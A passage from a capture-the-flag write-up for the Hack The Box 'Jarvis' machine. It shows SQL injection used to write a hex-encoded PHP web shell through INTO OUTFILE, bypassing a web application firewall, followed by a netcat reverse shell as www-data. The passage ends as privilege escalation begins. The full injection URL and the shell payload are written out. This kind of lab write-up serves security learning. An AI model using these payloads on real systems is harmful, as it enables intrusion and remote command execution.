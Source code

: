   Since we see a parameter value being sent as plain text in URL, we can try if SQL injection is possible with the help of [OWASP Tests](https://www.owasp.org/index.php/Testing_for_MySQL)

  When trying to use `1 limit 1 into outfile '/var/www/root/trial.php' FIELDS ENCLOSED BY '//'  LINES TERMINATED BY '<?php shell_exec($_GET['cmd']); ?>'` the result of accessing `http://10.10.10,143/trial.php` is `NOT FOUND`.
  So, we try to evade any Web Application Firewall(WAF) present, by taking hex of `<?php shell_exec($_GET['cmd']); ?>` which is `0x3C3F706870207368656C6C5F6578656328245F4745545B27636D64275D293B203F3E`.

  Now trying the following, we find that we are successful in creating a file `trial.php` in `/var/www/html/`

 `http://10.10.10.143/room.php?cod=1%20limit%201%20INTO%20OUTFILE%20%27/var/www/html/trial.php%27%20LINES%20TERMINATED%20BY%200x3C3F706870207368656C6C5F6578656328245F4745545B27636D64275D293B203F3E`

## **2.Exploitation**

  Let us now try to get a reverse shell using command execution, passing the command as value to the GET parameter `cmd`in the file `trial.php`.
  Using netcat command, a low-privileged-user reverse-shell is obtained at port 4444.
  ![webshell](../images/htb/Jarvis/jarvis-exploitation-revshell-1.png)

  ![netcat-www-data](../images/htb/Jarvis/jarvis-exploitation-revshell-2.png)

  As observed the user shell is of `www-data`. Checking for **user.txt**, we observe that it is located in `/home/pepper/user.txt`. So, in order to access **user.txt** we must escalate our privilege to user `pepper`.

## **3.Privilege Escalation**
  As enumerating the machine for privilege escalation, we get the following result for the command `sudo -l`
